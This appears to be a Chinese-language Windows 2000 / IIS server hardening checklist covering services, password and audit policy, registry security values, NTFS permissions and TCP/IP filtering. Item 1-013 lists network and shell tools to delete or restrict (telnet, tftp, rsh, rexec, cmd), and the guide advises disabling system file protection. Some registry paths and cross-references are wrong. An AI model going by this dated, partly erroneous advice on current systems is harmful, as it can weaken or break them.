

图 2：按照提示一步步下载安装最新的安全补丁

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-005 |
| 项目名称 | 配置操作系统提供的服务 |
| 项目描述 | 禁用操作系统提供的不必要的服务 |

| 项目 | 内容 |
|---|---|
| 操作步骤 | 以 Windows Web 服务器（采用 IIS）为例；可设置为自动启动的服务（可参考此内容推广到其他的设置）：Event Log（事件日志记录需要）；Logical Disk Manager（LDM）（磁盘管理需要）；Network Connections（网络管理需要）；Plug and Play（硬件设备即插即用需要）；Protected Storage（保护性存储需要）；Remote Procedure Call（RPC）（系统进程间调用需要）；Security Accounts Manager（SAM）（账户数据管理需要）；Windows Management Instrumentation（WMI）（管理控制台需要）；WMI Driver Extensions（同上）。可设置为手动启动的服务（一般为根据用途决定的内容）：DNS Client（仅当需要 DNS 时启用）；RunAs Service（仅当需要 runas 命令时启用）；IIS Admin Service（微软 Web 服务需要）；Logical Disk Manager Administrative Service（磁盘管理需要）；NT LM Security Support Provider（微软 Web 服务需要）；World Wide Web Publishing Service（微软 Web 服务需要）；禁用其他服务（对于有其他要求的系统服务可视情况开启，但原则上应尽量避免使用微软提供的系统服务，可参考安全专家的意见采用其他替代方案）。 |
| 注 | 具体每个服务的作用请参考微软的附加说明内容或咨询安全专家。注意：关闭一切不必要的服务。如对系统可能造成的影响不太了解，可以通过对一台相同配置的机器做关闭启动的试验来验证。 |

| 项目 | 内容 |
|---|---|
| 项目编号 | 1-006 |
| 项目名称 | 配置账户策略 |
| 项目描述 | 如图 3、图 4，分别在“管理工具”中打开“本地安全设置”，调整“密码策略”和“账户锁定策略”。 |




### 账户锁定策略

如图，推荐的密码策略为：

- 密码必须符合复杂性要求——已启用（必须启用）
- 密码长度最小值——8 个字符（或更高）

推荐的账户锁定策略为：

- “账户锁定阈值”——3 次（或略高）无效登录
- “账户锁定时间”——30 分钟（默认，可根据需要更改）
- “复位账户锁定计数器”——30 分钟（同上）之后

密码复杂性指的是密码中要包含字母、数字和元字符（特殊符号）等内容。

对应安全性要求较高的地方，笔者推荐 12 位以上的密码长度。

注：密码应该经常性（30 天或更短）更换，特别在有管理员以外的人知道时。

### 1-007 账户管理注意事项

加固主机时应当注意系统账户的管理。

- 1. 重新命名管理员账号。这是为了防止针对“Administrator”账号的密码猜测行为。
- 2. 禁用“Guest”账号。Windows 2000 默认为禁用，但有时你仍需要检查 Guest 组是否存在用户。
- 3. 检查系统中存在的账号状况。审核不必要的账号和组；审核账号隶属的组权限和用户权限并定期记录。对于长时间未登录的账号应该查询原因；对于因员工离职等原因废弃的账号要立即删除，特别对于有管理员权限的用户。
- 4. 注意通常的好习惯是使用其他账号来管理系统，只在必要管理员权限时才会采用管理员账号。
- 5. 建立新用户的好习惯是只赋予其 User 组或 Guest 组权限，不要授予 Power Users 组用户；对于任何特定的操作需要新建一个特定的组并赋予其权限来执行。

关于 DACL（任意访问控制）权限的控制可主要参见 1-012。

### 1-008 配置日志审核

微软操作系统的日志审核默认是关闭的，必须手动开启。

如图 5、图 6 所示，分别打开“管理工具 -> 本地安全策略 -> 本地策略 -> 审核策略”和“管理工具 -> 事件查看器”开启和调整日志审核。

如图，推荐的审核策略为：

- “审核策略更改”——成功 + 失败
- “审核登录事件”——成功 + 失败
- “审核对象访问”——失败
- “审核目录服务访问”——失败
- “审核特权使用”——失败
- “审核系统事件”——成功 + 失败
- “审核账户登录事件”——成功 + 失败
- “审核账户管理”——成功 + 失败

共有 3 项日志需要设置属性：“应用程序日志”“安全日志”“系统日志”，其推荐的日志属性设置为：

- “最大日志文件大小”——512000KB（视乎访问量设置，偏大更好）
- “当达到最大的日志尺寸时”——“不改写事件”（手动清除更加安全）

根据不同的应用选择日志记录项目和大小，如为 Web 网站，还需要设置 Web 访问日志，在采用微软的 IIS 中，日志项目另外需要在“IIS 管理器”中调整。

如果是网络上的应用服务器，日志文件可能会很大，如每天有上千万次点击的门户网站，其每天的日志可能有数百 MB 大小；日志记录文件大小可以参照用户访问量作适当调整，如要保存完整的日志记录以供复查，需要建立专用的审核策略，相关问题可以咨询安全专家。

### 1-009 禁用 NetBIOS 接口

NetBIOS 接口用来在两台或两台以上运行 NetBIOS 应用程序的计算机之间解析名字、建立连接和支持可靠数据传输。

它的存在是为了兼容以前的通用 Internet 文件系统/服务器消息块协议（CIFS/SMB），该协议会导致计算机信息泄漏以至于“空会话”建立的漏洞，是入侵 Windows 2000 的经典漏洞。

- 1. 如图 8，在网络的连接属性中禁用“Microsoft 网络的文件和打印机共享”。
- 2. 选中图 8 中“Internet 协议（TCP/IP）->属性->高级”选项，会弹出图 9 所示的设置，选中“禁用 TCP/IP 上的 NetBIOS”。
- 3. 可通过设置注册表（见 1-010 的 01 项）的方法禁用。

为稳妥起见，还需要在后面实施以上第 3 部分提出的内容。

如上图“Microsoft 网络客户端”包含 IIS 的 NT/LanMan Security Support Provider 组件（见 1-005 的服务配置）；是安装 IIS 所必须的；如未安装 IIS，可以去除选定。

### 1-010 保护系统账号数据库

Windows 2000 默认用来储存用户账号信息包括密码的 SAM（Security Accounts Manager——见 1-005 中服务部分）数据库，其中的密码部分是本地账号密码简单加密后的结果，采用专门的工具可以比较容易地破解；Windows 2000 提供了可以对密码信息实施加密保护的工具“Syskey”，可对密码作 128 位再加密。

- 1. 如图 10，直接在“开始=>运行”中执行“syskey”指令。选择“更新”（Update），出现图 11，这里出现选择项：
  - A．选择“密码启动”：需要手动指定一个新密码（为强固起见，推荐这个密码的值在 12～128 位之间），作为系统启动的密码；系统将使用这个密码的 128 位散列（属于安全加密的概念）值来加密 SAM 数据库中的密码，则每次启动系统时需要手动输入这个新指定的密码；
  - B．选择“系统产生的密码”：系统随机生成一个 128 位值的密钥对 SAM 数据库加密，则：或者“在软盘上保存这个启动密码”（需要在系统启动时插入这个软盘）或者
    - 1. “在本机上保存启动密码”（如图解释）。
    - 2. 为防止原来密码的泄漏，还需从 WINNT/REPAIR 目录中删除“SAM”文件。使用“syskey”后系统 SAM 将无法逆转到之前的状况。

### 1-011 注册表安全设置

Windows 2000 的注册表相关项目包括许多安全设置，本部分的内容将作详细解释：

- 1. 对应“对匿名连接的额外限制”，没有显式匿名权限就无法访问；在 `HKEY_LOCALMACHINE\SYSTEM\CurrentControlSet\Control\Lsa` 键下修改 `restrictanonymous` 值为 2。
- 2. 对应“关闭默认的根目录和管理共享”，去除 Windows 2000 安装后的默认共享；在注册表键 `HKEY_LOCALMACHINE\SYSTEM\CurrentControlSet\Services\Lanmanserver\Parameters` 下添加 DWORD（双字）值 `autosharewks` 为 0 以及 `autoshareserver` 为 0。
- 3. 对应“禁止 Guest 用户访问日志”；取消来宾账号包括其同组账号访问日志的权力；分别将在 `HKEY_LOCALMACHINE\CurrentControlSet\Services\EventLog` 下面的 3 个子键 `Application`、`Security` 以及 `System` 下面的 `RestrictGuestAccess` 键值改为 1。
- 4. 对应“禁止显示上次登录的用户名”，防止在登录界面上泄漏账号名信息；在 `HKEY_LOCALMACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 键下面修改 `DontDisplayLastUserName` 值为 1。
- 5. 对应“禁用 8.3 文件名创建”；取消 Windows 2000 为兼容以前微软文件命名方式带来的性能损失；在注册表子键 `HKEY_LOCALMACHINE\SYSTEM\CurrentControlSet\Control\FileSystem` 中修改 `NtfsDisable8dot3NameCreation` 值为 1。
- 6. 对应“禁用无用的子系统”——取消因为使用类似 DOS、Win16、OS/2 1.x 和 POSIX 应用系统下的程序子系统可能带来的安全隐患；修改 `HKEY_LOCALMACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\SubSystems` 子键下的 `Optional` 值为“0000”，删除同一子键下的“Os2”和“Posix”项；删除 `HKEY_LOCALMACHINE\SYSTEM\CurrentControlSet\Control\WOW` 子键（完整删除该子键）；删除 `HKEY_LOCALMACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment` 下的 `Os2LibPath` 项；删除 `HKEY_LOCALMACHINE\SOFTWARE\Microsoft\OS/2 Subsystem for NT` 下的全部子键。
- 7. （I）对应“保护系统不受一定的拒绝服务攻击”，防备 SYN（Synchronize Sequence Numbers，同步序列数）泛滥攻击；分别在 `HKEY_LOCALMACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` 键下添加 DWORD 值 `SynAttackProtect` 为 2、`TcpMaxHalfOpen` 值为 100、`TcpMaxHalfOpenRetried` 值为 80、`TcpMaxPortsExhausted` 值为 5；（II）对应“加强防备拒绝服务攻击的能力”，尽快终止半开放的 TCP 连接；可在如上的同一键下添加 DWORD 值 `TcpMaxConnectResponseRetransmissions` 为 3；（III）对应“TCP 空连接保留计数频”检查的设置，可以防止死连接额外消耗系统资源；可以尽快结束死连接；在以上同一键值下添加 DWORD 值 `KeepAliveTime` 为 300000，该计算单位为毫秒（ms），即 5 分钟；（IV）对应“不轻易改变 MTU（最大传输单元）的值”，防止 Windows 2000 自动执行的 MTU 探索被恶意用户利用导致系统采用极小 MTU 值从而增大系统资源消耗的拒绝服务攻击；可在同一位置进行相应设置。
  - 在同一键值下添加 DWORD 值 `EnablePMTUDiscovery` 为 `0`；（限制 MTU 值不变，默认为 576）
  - （V）对应“禁用 IP 源路由”；防止被恶意用户利用非法覆盖正常路由选择，应该在如上键值下添加 DWORD 值 `DisableIPSourceRouting` 为 `2`；
  - （VI）对应“禁用 ICMP 转向”；防止恶意用户利用来改变 Windows 2000 路由表以响应网络设备（如路由器）发送给它的 ICMP 重定向消息，在以上同一键下修改 `EnableICMPRedirect` 值为 `0`。
- 8．对应“禁用光盘自动启动”；防止恶意用户用该手段访问系统，可在键 `HKEY_USER\.default\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下改 `NoDriveTypeAutoRun` 值为 `149`。
- 9．（I）对应“只有本地登录的用户才能访问软盘”；防止非法访问，修改 `HKEY_LOCALMACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 下的 `AllocateFloppies` 值为 `1`；（II）对应“只有本地登录的用户才能访问 CD-ROM”；防止非法访问，修改同一键下的 `AllocateCdRoms` 值为 `1`。
- 10．对应“在关机时清理虚拟内存页面交换文件”；防止虚拟内存页面交换文件的信息泄漏，需要修改 `HKEY_LOCALMACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management` 键下的 `ClearPageFileAtShutdown` 值为 `1`。

相关注册表修改的知识请参阅相关文档，这里就不再详细说明。该项目中有关 10 以上（包括 10 在内）的 DWORD 值指的都是采用十进制的值，具体采用时要正确设置。

### 1-012 设置特权和权利

Windows 2000 提供对用户权利作设定的安全机制，使用它可以设置任意指定用户在操作系统中拥有的可操作范围。

如图 12，在“控制面板”->“管理工具”->“本地安全设置”中对应“用户权利指派”的部分设置列表。

- 1. 管理员组（Administrators）可以被授权的权利，包括“更改系统时间”“创建页面文件”“装载和卸载设备驱动程序”“在本地登录”“管理审核和安全日志”“配置单一进程”“配置系统性能”“关闭系统”“取得文件或对象的所有权”。
- 2. 备份操作员组（Backup Operators）可以被授权的权利，包括“备份文件和目录”“在本地登录”“还原文件和目录”（如果不想让备份操作管理员有还原文件和目录的权利，可以创建一个新的用户组）。
- 3. 用户组（Users）可以被授权的权利，包括“在本地登录（默认的）”……
- 4．将有关“Everyone”组的权利删除。如果已经遵守 1-007 中的账号管理事项 5，还可以将有关“Power Users”组的内容删除。
- 5．其他：不要授予其他任何权利，除非你的应用程序有特殊要求，你必须取消其他所有默认情况下的权利设定。

如果你使用了 IIS，并运行一个没有用户身份验证的网站，则必须保存 IUSR_COMPUTERNAME 和 IWAM_COMPUTERNAME 账号“从网络访问此计算机”“在本地登录”以及“作为批处理作业登录”的权利。

### 1-013 设定访问控制（ACL）的文件权限

在使用 NTFS 文件系统的基础上重制分区与文件访问条件，加强 Windows 2000 在默认安装下的访问权限，构建一个更加安全的主机。

- 1．取消默认安装时“Everyone”组拥有的对所有磁盘的完全控制权限。在“我的电脑”目录中直接右键对应有“本地磁盘”标志的磁盘盘符，打开“属性”项，在“安全”页中删除“Everyone”项，添加本地管理员账号（类似“计算机名\用户名”的存在方式）或管理员组（Administrators）项，并在下面的“权限”中选取“完全控制”；最好不要在根目录添加其他常用用户权限设置，更安全的设置是只允许本机用户管理员有完全控制权限，即使管理员组也不具备“写入”的权限。
- 2．取消系统的文件保护功能（这是为了给系统文件设定更安全的保存使用权限，如下 3 中的文件和程序）：
  - （I）首先移除系统中备份的系统文件；在根分区的“WINNT\DRIVER CACHE”目录下的所有文件，以及如果在安装 Service Pack 包时选择了“存档”时还要移除存档文件夹（默认）如“WINNT\ServicePackFiles”目录下的所有文件（也可以仅仅将它们挪到另外的目录下保存）；
  - （II）移除系统文件后在命令行模式下先执行“SFC /PURGECACHE”命令清除缓存文件，再执行“SFC /CACHESIZE=0”命令并重新启动，就可以取消 Windows 2000 的系统文件保护功能了。
- 3．
  - （I）对应于注册表安全设置（见 1-010 中的 07 项）的项目，在根分区的 `WINNT\SYSTEM32` 目录下有不必要的子系统相关的文件“ntdos.sys、ntio.sys、command.com、ntvdm.exe、krnl386.exe、posix.exe、psxdll.dll、psxss.exe、os2.exe、os2ss.exe、os2srv.exe 以及 os2（目录）”；
  - （II）对应于审核服务部分（见 1-005）的项目，在同一目录有不必要的网络服务相关的文件“clipsrv.exe、llssrv.exe、lmrepl.exe、netdde.exe、spoolss.exe、tapisrv.exe、tcpsvcs.exe、netbios.sys、ntbt.sys、rdr.sys、srv.sys”；
  - （III）还有在同一目录下的不必要的可执行文件“debug.exe、edit.com、edlin.exe、finger.exe、ftp.exe、nbtstat.exe、qbasic.exe、rcp.exe、rexec.exe、rsh.exe、secfixup.exe、telnet.exe、tftp.exe”；
  - （IV）包括在同一目录下的部分管理工具，如“arp.exe、at.exe、cacls.exe、cmd.exe、ipconfig.exe、net.exe、net1.exe、netstat.exe、nslookup.exe、ntbackup.exe、ping.exe、rdisk.exe、regedit.exe、regedt32.exe、route.exe、runonce.exe、syskey.exe、tracert.exe、winmsd.exe、xcopy.exe，或有已经安装了的 cscript.exe、wscript.exe”等可执行程序。
- 4．禁用系统中无用的和潜藏危险的组件。如 3 中所述的文件和可执行程序，可以将它们删除（如 I-III）或者移动到一个新建的目录中（如 IV）；新建立一个用户组并将新建目录的权限设定为唯一只由该用户组完全控制，新建一个用户加入此用户组（注意：| 字段 | 内容 |
|---|---|
| 备注 | 不要将管理员用户加入该组，当你准备使用这些程序时以该用户权限登录。还可建立一个只有这个用户控制的分区并设定只读属性，然后将文件夹移动到该分区保存。其他还可以采用例如给管理工具文件夹打包压缩或加密的手段，确保只有指定的用户可以访问和使用它们。更加安全的设置是在系统中完全删除这些文件，在需要管理时使用另外的拷贝。 |

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-014 |
| 项目名称 | 使用 Windows 2000 文件加密功能 |
| 项目描述 | Windows 2000 中包含的加密系统能够给磁盘、文件夹、文件加上一层安全保护。这个功能对于使用的用户是透明的，使用加密的用户可以直接以正确的用户身份登录后对文件夹任意操作，仿佛没有加密，而对不同的用户其内容则是加密的。这样无论别人是直接拷贝你的文件，还是把你的硬盘挂到别的机器上都无法读出里面的数据。 |
| 操作步骤 | 如图 13，直接在文件与文件夹上右键弹出“属性”对话框，在“常规”页选择“高级…”，选中“加密内容以便保护数据”。确定后退出。在最后确认时如果是应用在文件夹上，系统会提示是否包括文件夹中全部的文件，推荐对整个文件夹包括所含的文件加密，而不仅仅是单个的文件。 |
| 备注 | 注意，Windows 2000 文件加密并不能防止文件被相应权限的用户删除。为了资料数据的安全，最好的办法还是常做备份。另外，本机的管理员是文件加密默认的数据恢复代理，他可以阅读和在发生故障时恢复你加密的内容。对应文件加密技术已有成熟的第三方软件可供采用，详情请咨询安全专家。 |



| 字段 | 内容 |
|---|---|
| 项目编号 | 1-015 |
| 项目名称 | 不记录系统失败的调试信息 |
| 项目描述 | 系统失败的调试信息存储在内存转储文件中，当系统崩溃时可以为诊断错误提供信息，不过转储文件的存在还会泄漏其他关键信息，例如应用程序的密码。 |
| 操作步骤 | 如图 14，在“我的电脑”上点击右键，弹出“属性”选项，在“高级”页选中“启动和故障恢复”，在“写入调试信息”中选择“无”。 |



| 项目 | 内容 |
|---|---|
| 项目编号 | 1-016 |
| 项目名称 | 配置 TCP/IP 筛选 |
| 项目描述 | Windows 2000 提供了一定的网络流量过滤功能来保护 TCP/IP 安全，但需要手动配置。 |
| 操作步骤 | 如图 15，选择“网络与拨号连接”→ 连接到外部网络的网卡选项的“属性”→ Internet 协议（TCP/IP）→ 属性 → 高级 → 选项。点选“TCP/IP 筛选→属性”部分并作设置，如图 16 所示。 |
| 说明 | 在弹出窗口作如上设定：这是利用 Windows 2000 提供的 TCP/IP 安全机制对外部连接的过滤，这里是一个 Web 服务器的例子，它只允许 80 端口的 TCP 流量通过；对其他端口流量的进入默认均为拒绝。 |
| 备注 | Windows 2000 提供的 TCP/IP 筛选无法过滤向外的流量和向外的 TCP 连接的应答。 |





| 项目 | 内容 |
|---|---|
| 项目编号 | 1-017 |
| 项目名称 | 禁止从光盘或软盘启动 |
| 项目描述 | 为了防止恶意用户利用光盘自动启动（AutoRun）执行非法文件和恶意访问系统。 |
| 操作步骤 | 1. 从 BIOS 设置中禁用从光盘或软盘启动，并设置 BIOS 密码防止恶意修改。<br>2. 从注册表选项中禁用光盘自动启动（见 1-011 中 08 项）。 |
| 备注 | 设置 BIOS 请参考用户各自的主板硬件说明书。 |

| 项目 | 内容 |
|---|---|
| 项目编号 | 1-018 |
| 项目名称 | 使用一个有密码的屏保 |
| 项目描述 | 启动含有密码的屏幕保护程序，防止管理员暂时离开的时候非法的物理访问。 |
| 操作步骤 | 如图 17，可在桌面中直接右键“属性”或在“控制面板”的“显示”选项中调节“屏幕保护程序”页，任意选择一个屏幕保护程序，指定一个启动时间（分钟），点选前面的“密码保护”并应用；保护密码就是你的用户登录密码。 |
| 备注 | 在时间选项上可以另作调整。另外，管理员应该养成在离开时锁定计算机的习惯：“Ctrl+Alt+Delete”→“锁定”。 |


| 项目 | 内容 |
|---|---|
| 项目编号 | 1-019 |
| 项目名称 | IE 浏览器安全 |
| 项目描述 | 如可能尽量不在加固主机上使用 IE 浏览器，如果使用，则需要注意安全。 |
